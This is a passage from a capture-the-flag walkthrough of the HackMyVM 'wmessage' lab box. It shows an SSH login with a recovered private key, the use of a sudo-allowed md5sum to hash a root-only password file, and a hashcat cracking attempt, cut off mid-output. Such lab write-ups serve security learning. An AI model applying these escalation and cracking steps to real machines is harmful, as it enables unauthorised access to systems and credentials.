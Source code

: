 I can now `ssh` into the box as the `messagemaster` user:

```bash
garffff@garffff:~/hackmyvm/wmessage$ vi id_rsa
garffff@garffff:~/hackmyvm/wmessage$ chmod 600 id_rsa 
garffff@garffff:~/hackmyvm/wmessage$ ssh -i id_rsa messagemaster@192.168.0.211
Linux MSG 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Check /var/Secr

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

Last login: Tue Nov 22 12:58:24 2022 from 192.168.1.17
messagemaster@MSG:~$
```
### Privilege Escalation - Root:

Issuing the `sudo -l` command again, I can see that I can use the `/bin/md5su` as root:

```bash
messagemaster@MSG:/var/www$ sudo -l
Matching Defaults entries for messagemaster on MSG:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User messagemaster may run the following commands on MSG:
    (ALL) NOPASSWD: /bin/md5sum

```

Looking inside the `/var/www` directory, I see a file called `ROOTPASS`:

```bash
messagemaster@MSG:/var/www$ ls -lash
total 16K
4.0K drwxr-xr-x  3 root     root     4.0K Nov 21  2022 .
4.0K drwxr-xr-x 12 root     root     4.0K Nov 20  2022 ..
4.0K drwxrwxr--  5 www-data www-data 4.0K Nov 18  2022 html
4.0K -rw-r-----  1 root     root       12 Nov 21  2022 ROOTPASS
```

Using the `/bin/md5sum` with `sudo` I can get the MD5 hash of the file:

```bash
messagemaster@MSG:/var/www$ sudo /bin/md5sum /var/www/ROOTPASS
85c73111b30f9ede8504bb4a4b682f48  /var/www/ROOTPASS
```

Hashcat was unable to crack this:

```bash
garffff@garffff:~/hackmyvm/wmessage$ hashcat -m 0 hash.txt /opt/rockyou.txt 
hashcat (v6.2.6-707-g91095845b) starting

Successfully initialized the NVIDIA main driver CUDA runtime library.

Failed to initialize NVIDIA RTC library.

* Device #1: CUDA SDK Toolkit not installed or incorrectly installed.
             CUDA SDK Toolkit required for proper device support and utilization.
             For more information, see: https://hashcat.net/faq/wrongdriver
             Falling back to OpenCL runtime.

* Device #1: WARNING! Kernel exec timeout is not disabled.
```